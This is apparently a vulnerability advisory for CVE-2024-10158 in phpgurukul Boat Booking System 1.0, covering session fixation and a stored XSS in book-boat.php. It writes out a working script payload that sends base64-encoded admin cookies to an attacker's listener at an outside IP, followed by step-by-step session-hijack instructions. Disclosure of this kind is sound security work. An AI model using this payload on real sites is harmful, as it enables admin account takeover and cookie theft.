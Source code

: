 # Session Fixation vulnerability from phpgurukul Boat Booking System 1.0 
## CVE-2024-10158

**Affected Project**: Boat Booking System 1.0

**Official Website**: https://phpgurukul.com/boat-booking-system-using-php-and-mysql/

**Version**: 1.0

**Related Code file**: book-boat.php

## Vulnerability Description

The session is being started (session_start()) without regenerating the session ID after login, which could expose the system to session fixation attacks. An attacker can force a session ID onto a victim and then hijack it after the victim logs in.

**Risk**: If an attacker gets hold of the session ID (via XSS or other means), they could hijack the session and impersonate the user.

**Fix**: After logging in, regenerate the session ID to prevent this attack.

Via injecting `<script>var i=new Image(); i.src="http://10.10.14.12:1234/?cookie="+btoa(document.cookie);</script>` payload to forms in `book-boat.php`, attacker can inject a XSS payload.

When admin user sign in to check on `all-booking.php`, payload will be triggered and admin cookie is forwarded to attacker's netcat listener, which can be used to login as the admin user without needing any credentials. 


## Demonstration

Below is how boat booking system looks like. Let's fill it up with Session Hijacking payload: `<script>var i=new Image(); i.src="http://10.10.14.12:1234/?cookie="+btoa(document.cookie);</script>`

![Screenshot from 2024-10-17 11-57-34](https://github.com/user-attachments/assets/66af02a8-6ef0-4c27-b8f7-beeef3b11454)

We can see that the booking was done successfully:

![Screenshot from 2024-10-17 11-57-45](https://github.com/user-attachments/assets/50d16838-f7e8-4043-befc-3c2cca27d422)

Now, sign in as the admin:

![Screenshot from 2024-10-17 11-58-06](https://github.com/user-attachments/assets/b1e98c53-530f-475d-8ab6-ff2ceee9be4c)

Going to `all-booking.php`, payload is triggered, and attacker's netcat listener intercepts the admin session cookie:

![Screenshot from 2024-10-17 11-58-23](https://github.com/user-attachments/assets/e79d126a-4a8c-4202-a494-b08c0cbc6806)

Using `atob`, this can be decoded to PHPSESSID:

![Screenshot from 2024-10-17 11-59-46](https://github.com/user-attachments/assets/521ffa2f-55d2-45d5-8f15-0f33c58b869d)

Use coookie editor to set the browser cookie to intercepted admin cookie:

![Screenshot from 2024-10-17 12-10-03](https://github.com/user-attachments/assets/5c64497e-cf01-42c3-9792-e38c3eee2d39)

Without needing any admin credentials, attacker is now able to access admin dashboard with admin privilege:

![Screenshot from 2024-10-17 12-00-38](https://github.com/user-attachments/assets/37deba4e-1095-4aea-bc81-ef0a4dabcd3b)


